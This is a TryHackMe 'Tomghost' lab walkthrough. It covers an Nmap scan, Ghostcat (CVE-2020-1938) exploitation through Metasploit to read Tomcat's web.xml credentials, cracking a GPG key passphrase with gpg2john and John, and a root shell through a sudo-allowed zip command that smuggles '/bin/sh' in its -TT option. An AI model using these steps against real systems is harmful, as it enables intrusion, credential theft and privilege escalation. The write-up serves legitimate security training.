# TryHackMe: Tomghost

> A walkthrough of my enumeration, Ghostcat exploitation, GPG key passphrase recovery, and privilege escalation through `zip`.

## Attack Path

```text
Target discovery
      |
      v
Nmap: 22 / 53 / 8009 / 8080
      |
      v
Apache Tomcat 9.0.30 + exposed AJP (8009)
      |
      v
Ghostcat (CVE-2020-1938)
      |
      v
Read /WEB-INF/web.xml
      |
      v
SSH as skyfuck
      |
      v
gpg2john + John -> recover GPG key passphrase
      |
      v
Decrypt credential.pgp -> merlin credentials
      |
      v
SSH as merlin -> sudo -l -> /usr/bin/zip
      |
      v
GTFOBins zip technique -> root
```

## 1. Reconnaissance

I began by adding the target machine to `/etc/hosts`, mapping its IP address to `tomghost.thm`.

```bash
sudo nano /etc/hosts
```

I added the following entry:

```text
<target_ip> tomghost.thm
```

This lets me use the hostname instead of repeatedly entering the target IP.

Next, I performed an Nmap scan to identify open ports and running services.

```bash
nmap -sC -sV -oN nmap_scan.txt <target_ip>
```

### Command breakdown

| Option | Purpose |
|---|---|
| `-sC` | Runs Nmap's default set of NSE scripts for additional service enumeration. |
| `-sV` | Attempts to identify the versions of services running on open ports. |
| `-oN nmap_scan.txt` | Saves the results in Nmap's normal, human-readable output format. |

### Results

| Port | Service | Finding |
|---|---|---|
| 22 | SSH | OpenSSH 7.2p2 |
| 53 | TCP-wrapped | Port is open, but service details are not exposed by the scan. |
| 8009 | AJP13 | Apache JServ Protocol |
| 8080 | HTTP | Apache Tomcat 9.0.30 |

The most interesting combination was **Tomcat 9.0.30 on port 8080** and the **AJP service on port 8009**. I decided to investigate the Tomcat web page first.



## 2. Tomcat Enumeration

I opened the web service:

```text
http://tomghost.thm:8080
```

The page displayed the Apache Tomcat welcome page and identified the version as **9.0.30**.

The version stood out, so I researched known vulnerabilities affecting this release. I found **Ghostcat**, tracked as **CVE-2020-1938**.

Ghostcat affects Tomcat's AJP connector. When an exposed AJP connector is reachable by an untrusted party, it can allow files from the web application to be read. The vulnerable version range includes Tomcat 9.0.0.M1 through 9.0.30. In this scan, port 8009 was open, making the vulnerability worth testing.



## 3. Exploiting Ghostcat with Metasploit

I checked Metasploit for an existing Ghostcat module.

```text
msfconsole
search ghostcat
```

The search returned:

```text
auxiliary/admin/http/tomcat_ghostcat
```

I selected the module and ran it against the target.

```text
use auxiliary/admin/http/tomcat_ghostcat
show options
```

The module targets the AJP service. Its default AJP port is `8009`, and its default file path is `/WEB-INF/web.xml`.

I then executed the module:

```text
run
```

The module successfully retrieved the contents of `WEB-INF/web.xml`. While inspecting the returned XML, I found credentials embedded in the application's description:

```text
skyfuck:<password-recovered-from-web.xml>
```

This gave me a username and password to try over SSH.







### Why this worked

Tomcat's AJP connector was exposed on port 8009. Ghostcat abuses the way Tomcat handles AJP requests to read files from the web application. The Metasploit module requested `/WEB-INF/web.xml`, a configuration file that can contain application metadata and, in this room, the credentials needed for SSH access.

## 4. SSH Access as `skyfuck`

I used the recovered credentials to connect over SSH.

```bash
ssh skyfuck@tomghost.thm
```

After logging in, I listed the contents of the home directory.

```bash
ls -la
```

I found two important files:

- `tryhackme.asc` — an ASCII-armored GPG private key.
- `credential.pgp` — an encrypted file.

I also checked the home directories and found that the user flag was stored under Merlin's home directory:

```bash
cd /home
ls
cd merlin
cat user.txt
```

The flag was readable from my current account. The next challenge was to understand how the two GPG files were related and recover the credentials stored in the encrypted file.





## 5. Copying the GPG Files to My Machine

I transferred both files from the target to my attacker machine using `scp`.

Run these commands on the attacker machine:

```bash
scp skyfuck@tomghost.thm:~/credential.pgp .
scp skyfuck@tomghost.thm:~/tryhackme.asc .
```

### Command breakdown

| Part | Purpose |
|---|---|
| `scp` | Securely copies files between systems over SSH. |
| `skyfuck@tomghost.thm:` | Specifies the remote SSH user and host. |
| `~/credential.pgp` | Path of the remote file to download. |
| `.` | Saves the downloaded file in the current local directory. |

I downloaded both the encrypted credential file and its corresponding private key.



## 6. Recovering the GPG Private-Key Passphrase

I knew that `tryhackme.asc` was a protected GPG private key. To use it, I needed its passphrase.

I remembered using `ssh2john` in an earlier room to convert an SSH private-key file into a format John the Ripper could process. I applied the same idea here with **`gpg2john`**.

```bash
gpg2john tryhackme.asc > hash.txt
```

### How this command works

- `gpg2john` extracts the passphrase-protected key information and converts it into a hash format supported by John the Ripper.
- `>` redirects the output into a file instead of printing it to the terminal.
- `hash.txt` stores the generated hash for cracking.

I then used John with the `rockyou.txt` wordlist.

```bash
john hash.txt --wordlist=rockyou.txt
```

### Command breakdown

| Part | Purpose |
|---|---|
| `john` | Starts John the Ripper. |
| `hash.txt` | Supplies the hash generated by `gpg2john`. |
| `--wordlist=rockyou.txt` | Tells John to try candidate passwords from the specified wordlist. |

John recovered the GPG key passphrase: `alexandru`.

This was not the password for the `skyfuck` or `merlin` Linux account. It was the passphrase protecting the GPG private key.



## 7. Importing the Key and Decrypting the Credentials

With the passphrase recovered, I imported the private key into my GPG keyring.

```bash
gpg --import tryhackme.asc
```

### Command explanation

- `gpg` launches GNU Privacy Guard.
- `--import` imports a key into the local GPG keyring.
- `tryhackme.asc` is the private-key file being imported.

Next, I decrypted the encrypted credentials file and saved the output into `a.txt`.

```bash
gpg --output a.txt --decrypt credential.pgp
```

### Command explanation

| Option | Purpose |
|---|---|
| `--output a.txt` | Writes the decrypted content to `a.txt`. |
| `--decrypt` | Decrypts the supplied encrypted file. |
| `credential.pgp` | The encrypted input file. |

GPG requested the private-key passphrase. I entered the passphrase recovered with John.

I then viewed the decrypted file:

```bash
cat a.txt
```

It contained credentials for another user:

```text
merlin:<merlin-password>
```

This gave me the credentials needed to switch to Merlin.



## 8. Switching to `merlin` and Checking Sudo Permissions

I connected to the machine as Merlin over SSH.

```bash
ssh merlin@tomghost.thm
```

After logging in, I checked which commands this user could execute with elevated privileges.

```bash
sudo -l
```

The output showed:

```text
(root : root) NOPASSWD: /usr/bin/zip
```

This means Merlin can execute `/usr/bin/zip` as root without entering a sudo password.

A program that can be run with elevated privileges may provide a path to a privileged shell if it supports a suitable escape technique. I checked the `zip` entry on GTFOBins and found a method that uses its archive-testing options.



## 9. Privilege Escalation Using `zip`

The GTFOBins technique abuses the way `zip` performs archive testing.

I used:

```bash
sudo zip /tmp /etc/hosts -T -TT '/bin/sh #'
```

### Command breakdown

| Part | Purpose |
|---|---|
| `sudo` | Runs the following command with the privileges granted by the sudo rule. |
| `zip` | The permitted archive utility. |
| `/tmp` | Archive name/path supplied to `zip` in my recorded command. |
| `/etc/hosts` | File added to the archive. |
| `-T` | Tests the integrity of the newly created archive. |
| `-TT '/bin/sh #'` | Specifies the command used for the archive test. The supplied shell command is executed during the test. |

Because `zip` was executed through `sudo`, the command launched by the archive test inherited root privileges. This gave me a root shell.

I verified the current user:

```bash
whoami
```

Then I accessed the root directory and read the root flag:

```bash
cd /root
ls
cat root.txt
```



## 10. What I Learned

- **AJP enumeration:** An exposed AJP service on port 8009 can be as important as the HTTP service running on port 8080.
- **Ghostcat (CVE-2020-1938):** An outdated Tomcat version combined with an exposed AJP connector can allow web application files to be read.
- **Metasploit auxiliary modules:** Metasploit includes modules for testing known vulnerabilities; understanding the module's target service and options is important before running it.
- **GPG key handling:** An ASCII-armored `.asc` file can contain a protected private key, while a `.pgp` file can contain data encrypted for that key.
- **Using `gpg2john`:** John the Ripper can crack a GPG private-key passphrase after `gpg2john` converts the key into a supported hash format.
- **Credential pivoting:** Decrypting one file revealed credentials for a different local user, allowing me to move from `skyfuck` to `merlin`.
- **GTFOBins and sudo misconfigurations:** A command that appears harmless, such as `zip`, can become a privilege-escalation path when allowed to run as root.

## 11. Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port scanning and service/version detection |
| Metasploit | Testing the Ghostcat vulnerability |
| SSH | Remote login to `skyfuck` and `merlin` |
| SCP | Securely transferring the GPG files |
| GPG | Importing the private key and decrypting credentials |
| `gpg2john` | Converting the protected GPG key into a John-compatible hash |
| John the Ripper | Recovering the GPG key passphrase |
| GTFOBins | Finding a privilege-escalation technique for `zip` |

## References

- [CVE-2020-1938 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)
- [Rapid7 Metasploit: Apache Tomcat AJP File Read](https://www.rapid7.com/db/modules/auxiliary/admin/http/tomcat_ghostcat/)
- [Metasploit module source](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/http/tomcat_ghostcat.rb)
- [GTFOBins — zip](https://gtfobins.org/gtfobins/zip/)
- [John the Ripper documentation](https://www.openwall.com/john/doc/)

## Disclaimer

This writeup documents my learning process in the authorized TryHackMe lab environment. The techniques described are intended for legal practice and educational purposes only.

**Tomghost completed!**
